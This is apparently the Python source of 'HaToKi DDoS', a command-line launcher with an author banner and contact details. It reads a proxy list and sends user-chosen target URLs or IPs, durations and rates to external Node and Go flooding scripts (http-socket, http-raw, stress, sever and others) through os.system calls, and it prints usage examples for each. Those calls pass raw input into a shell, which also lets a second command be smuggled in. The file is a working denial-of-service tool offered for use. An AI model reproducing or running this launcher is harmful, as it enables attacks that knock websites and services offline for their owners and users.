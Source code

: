 from colorama import Fore, Back, Style
import socket
import os
import requests
import random
import getpass
import time
import sys

def clear():
    os.system('cls' if os.name == 'nt' else 'clear')

proxys = open('proxies.txt').readlines()
bots = len(proxys)

def ascii_vro():
    clear()
    print(Fore.BLUE + """
     ██░ ██  ▄▄▄     ▄▄▄█████▓ ▒█████   ██ ▄█▀ ██▓
    ▓██░ ██▒▒████▄   ▓  ██▒ ▓▒▒██▒  ██▒ ██▄█▒ ▓██▒
    ▒██▀▀██░▒██  ▀█▄ ▒ ▓██░ ▒░▒██░  ██▒▓███▄░ ▒██▒
    ░▓█ ░██ ░██▄▄▄▄██░ ▓██▓ ░ ▒██   ██░▓██ █▄ ░██░
    ░▓█▒░██▓ ▓█   ▓██▒ ▒██▒ ░ ░ ████▓▒░▒██▒ █▄░██░
     ▒ ░░▒░▒ ▒▒   ▓▒█░ ▒ ░░   ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  
     ▒ ░▒░ ░  ▒   ▒▒ ░   ░      ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░
     ░  ░░ ░  ░   ▒    ░      ░ ░ ░ ▒  ░ ░░ ░  ▒ ░
     ░  ░  ░      ░  ░            ░ ░  ░  ░    ░   by VoTungDuong
                                           """)
    time.sleep(1.8)
    clear()

def si():
    print("Zalo/Call: 0889294024")
    print("Information: https://votungduong.info")

def menu():
    sys.stdout.write(f"HaToKi Ddos Update 1.5.8")
    clear()
    print('HaToKi DDoS By VoTungDuong [votungduong.info] ')
    print("https://votungduong.info")
    print(Fore.YELLOW + """
            ╚═════════════════════╦═════════════════════════════════════════╦══════════════════════╝
                ╔═════════════════╩══════════════[HaToKi-DDoS]══════════════╩══════════════════╗
               ╔╝------------------------------------------------------------------------------╚╗
               ║   db   db  .d8b.  d888888b  .d88b.  db   dD d888888b      db    db .d888b.     ║
               ║   88   88 d8' `8b `~~88~~' .8P  Y8. 88 ,8P'   `88'        88    88 VP  `8D     ║
               ║   88ooo88 88ooo88    88    88    88 88,8P      88         Y8    8P    odD'     ║
               ║   88~~~88 88~~~88    88    88    88 88`8b      88         `8b  d8'  .88'       ║
               ║   88   88 88   88    88    `8b  d8' 88 `88.   .88.         `8bd8'  j88.        ║
               ║   YP   YP YP   YP    YP     `Y88P'  YP   YD Y888888P         YP    888888D     ║
               ║------------ Link faceBook : https://www.facebook.com/Duongne.201   -----------║
               ╚════════════════════════╦═══════════════════════════╦═══════════════════════════╝
                     ╔══════════════════╩═══════════════════════════╩═══════════════════╗
                     ║-------------- prohibit attack government web, gov ---------------║ 
                     ╚═════════════╦══════════════════════════════════════╦═════════════╝
                         ╔═════════╩═════════╗                  ╔═════════╩═════════╗
                         ║   hotieubao.info  ╠══════════════════╣   tungduong.info  ║
                         ║    0889294024     ║ -   -   -   -  - ║      tungduong.201    ║
                         ║                   ╠══════════════════╣                   ║
                         ╚═══════════════════╝                  ╚═══════════════════╝
""")

def main():
    menu()
    while(True):
        cnc = input('''Input :''')
        if cnc == "layer7" or cnc == "LAYER7" or cnc == "L7" or cnc == "l7":
            ()
        elif cnc == "layer4" or cnc == "LAYER4" or cnc == "L4" or cnc == "l4":
            ()
        elif cnc == "amp" or cnc == "AMP" or cnc == "amp/game" or cnc == "amps/game" or cnc == "amps/games" or cnc == "amp/games" or cnc == "AMP/GAME":
            ()
        elif cnc == "special" or cnc == "SPECIAL" or cnc == "specialS" or cnc == "SPECIALS":
            ()
        elif cnc == "rule" or cnc == "RULES" or cnc == "rules" or cnc == "RULES" or cnc == "RULE34":
            ()
        elif cnc == "clear" or cnc == "CLEAR" or cnc == "CLS" or cnc == "cls":
            ()
        elif cnc == "ports" or cnc == "port" or cnc == "PORTS" or cnc == "PORT":
            ()
        elif cnc == "tools" or cnc == "tool" or cnc == "TOOLS" or cnc == "TOOL":
            ()
        elif cnc == "banner" or cnc == "BANNER" or cnc == "banners" or cnc == "BANNERS":
            ()

        elif "http-socket" in cnc:
            try:
                url = cnc.split()[1]
                per = cnc.split()[2]
                time = cnc.split()[3]
                os.system(f'node HTTP-SOCKET {url} {per} {time}')
            except IndexError:
                print(Fore.RED +'Usage: http-socket <url> <per> <time>')
                print(Fore.RED +'Example: http-socket http://hotieubao.info/ 5000 60')

        elif "http-raw" in cnc:
            try:
                url = cnc.split()[1]
                time = cnc.split()[2]
                os.system(f'node HTTP-RAW {url} {time}')
            except IndexError:
                print(Fore.RED +'Usage: http-raw <url> <time>')
                print(Fore.RED +'Example: http-raw http://hotieubao.info/ 60')

        elif "http-requests" in cnc:
            try:
                url = cnc.split()[1]
                time = cnc.split()[2]
                os.system(f'node HTTP-REQUESTS {url} {time}')
            except IndexError:
                print(Fore.RED +'Usage: http-requests <url> <time>')
                print(Fore.RED +'Example: http-requests http://hotieubao.info/ 60')

        elif "stress" in cnc:
            try:
                ip = cnc.split()[1]
                port = cnc.split()[2]
                mode = cnc.split()[3]
                conn = cnc.split()[4]
                time = cnc.split()[5]
                out = cnc.split()[6]
                os.system(f'go run stress.go {ip} {port} {mode} {conn} {time} {out}')
            except IndexError:
                print(Fore.RED +'Usage: stress <ip> <port> <mode> <connection> <seconds> <timeout>')
                print(Fore.RED +'MODE: [1] TCP')
                print(Fore.RED +'      [2] UDP')
                print(Fore.RED +'      [3] HTTP')
                print(Fore.RED +'Example: stress 1.1.1.1 80/443 3 1250 60 5')

        elif "http-rand" in cnc:
            try:
                url = cnc.split()[1]
                time = cnc.split()[2]
                os.system(f'node HTTP-RAND.js {url} {time}')
            except IndexError:
                print(Fore.RED +'Usage: http-rand <url> <time>')
                print(Fore.RED +'Example: http-rand http://hotieubao.info/ 60')

        elif "sever" in cnc:
            try:
                url = cnc.split()[1]
                method = cnc.split()[2]
                os.system(f'go run sever.go -site {url} -data {method}')
            except IndexError:
                print(Fore.RED +'Usage: sever <url> METHODS<GET/POST>')
                print(Fore.RED +'Example: sever http://hotieubao.info/ GET')

        elif "info" in cnc:
            print(f'''
[https://hotieubao.info]
            ''')
        else:
            try:
                cmmnd = cnc.split()[0]
                print("Command: [ " + cmmnd + " ] Not Found!")
            except IndexError:
                pass
main()
